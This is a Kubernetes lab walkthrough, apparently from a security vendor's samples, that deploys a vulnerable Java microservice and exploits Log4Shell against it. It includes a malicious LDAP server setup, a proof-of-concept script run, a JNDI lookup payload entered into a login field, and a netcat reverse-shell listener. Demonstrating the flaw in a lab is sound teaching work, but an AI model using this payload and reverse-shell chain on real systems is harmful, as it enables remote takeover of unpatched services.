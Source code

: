 ### Deploy Log4j sample application

Deploying a sample Java microservice on namespace java-ms

```
kubectl create ns java-ms
```

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s.yaml -n java-ms  
```

Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Make sure the application is up and running.
![](https://i.imgur.com/615Fooi.png)

### Exploiting Log4j vulnerability

**Step 1:** Deploying malicious ldap server on namespace java-ms

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s-ldap.yaml -n java-ms
```

Check pods and services running

```
kubectl get po,svc -n java-ms
```

Output:

```
NAME                           READY   STATUS    RESTARTS   AGE
pod/java-ms-56b9c47579-8k2xc   1/1     Running   0          6m48s
pod/nc-pod-679c75d5b7-hcwh8    1/1     Running   0          104s

NAME                  TYPE           CLUSTER-IP     EXTERNAL-IP    PORT(S)                                        AGE
service/java-ms-svc   LoadBalancer   10.88.9.132    34.136.7.141   80:30753/TCP                                   7m16s
service/nc-svc        LoadBalancer   10.88.13.152   34.68.190.28   4444:31515/TCP,8000:31247/TCP,1389:31121/TCP   2m28s
```

**Step 2:** Execute into the LDAP server pod

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Note: Change nc-pod-679c75d5b7-hcwh8 to your pod name.

**Step 3:** Run command inside the pod

Note: userip → external IP of the nc-svc

```
python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444
```

Note: Replace 34.68.190.28 with your external IP of the service nc-svc

Output:

```
root@nc-pod-679c75d5b7-hcwh8:/poc# python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://34.68.190.28:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

**Step 4:** Open another terminal and execute into the netcat pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell connection

Note: Here we are using the same pod for the LDAP server and netcat

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Run the below command inside the pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell

```
nc -lvnp 4444
```

Output:

```
root@nc-pod-679c75d5b7-4gkjl:/poc# nc -lvnp 4444
Listening on 0.0.0.0 4444
```

**Step 5:** Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Type ${jndi:ldap://34.68.190.28:1389/a} in username field and click Login
![](https://i.imgur.com/l6gv5VO.png)

Note: 34.68.190.28 replace with your nc-svc external IP

**Step 6:** Check netcat pod `nc-pod-679c75d5b7-4gkjl`. You will get a reverse shell to java pod.
![](https://i.imgur.com/WTVj3cU.png)

Note: Try hostname command, you can see hostname is the name of the java microservice pod.

Now we got the reverse shell to the java microservice pod from the netcat pod using log4j vulnerability.


